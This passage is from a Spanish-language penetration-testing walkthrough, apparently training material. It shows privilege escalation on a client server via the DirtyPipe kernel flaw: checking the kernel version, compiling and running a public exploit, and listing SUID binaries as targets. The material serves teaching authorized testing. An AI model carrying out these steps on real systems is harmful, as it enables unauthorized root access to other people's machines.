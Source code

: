 ```r
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon May 23 08:48:13 2022 from 172.16.0.1
```

Como paso final, enumeraremos el sistema objetivo, verificando oportunidades de escalada de privilegios locales. Si podemos obtener acceso de nivel **root**, habremos cumplido con el objetivo principal del cliente, ya que afirmaron que este servidor contiene sus "joyas de la corona", o datos más importantes. Durante nuestra enumeración, hacemos una búsqueda en Google basada en la versión del **Kernel** y vemos que probablemente sea vulnerable al [DirtyPipe](https://www.cisa.gov/uscert/ncas/current-activity/2022/03/10/dirty-pipe-privilege-escalation-vulnerability-linux), `CVE-2022-0847`. Podemos leer una excelente explicación de esta vulnerabilidad en el [Hack The Box blog](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847).

```r
ssmallsadm@MGMT01:~$ uname -a

Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Usaremos **exploit-2** de [este repositorio de GitHub](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). Como tenemos acceso **SSH** al sistema, podemos crear un archivo con `Vim` y pegar el código del exploit. Luego debemos compilarlo, y afortunadamente `gcc` está presente en el sistema.

```r
ssmallsadm@MGMT01:~$ gcc dirtypipe.c -o dirtypipe
ssmallsadm@MGMT01:~$ chmod +x dirtypipe
ssmallsadm@MGMT01:~$ ./dirtypipe 

Usage: ./dirtypipe SUID
```

Debemos ejecutar el exploit contra un binario **SUID** para inyectar y sobrescribir la memoria en un proceso **root**. Entonces primero necesitamos buscar binarios **SUID** en el sistema.

```r
ssmallsadm@MGMT01:~$ find / -perm -4000 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount

<SNIP>
```
